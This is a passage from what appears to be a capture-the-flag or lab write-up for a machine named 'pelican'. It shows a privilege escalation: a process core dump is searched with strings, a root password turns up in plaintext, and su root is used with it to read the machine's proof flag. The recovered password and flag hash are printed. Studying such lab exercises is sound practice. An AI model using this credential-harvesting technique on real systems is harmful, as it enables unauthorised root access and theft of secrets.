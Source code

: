 ```
Saved corefile core.8118
[Inferior 1 (process 8118) detached]

charles@pelican:/opt/zookeeper$ cat core.8118 | strings | grep -5 charles
cat core.8118 | strings | grep -5 charles
////////////////
001 Password: root:
ClogKingpinInning731
yU|x86_64
password-store
USER=charles
SHLVL=0
HOME=/home/charles
OLDPWD=/etc
LOGNAME=charles
JOURNAL_STREAM=9:16346
_=/bin/nc
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
INVOCATION_ID=01ab10c8340c4e44a125c89fa57242bd
LANG=en_US.UTF-8
```

The core dump has a password. Let's try it against `root`:

```
charles@pelican:/opt/zookeeper$ su root
su root
Password: ClogKingpinInning731

root@pelican:/opt/zookeeper# cat /root/proof.txt
cat /root/proof.txt
e1cedd57a7563b4cb2ef1cacc6f56c7e
```

Success! Kind of got lucky with that grepping for "charles" and instead got root lol...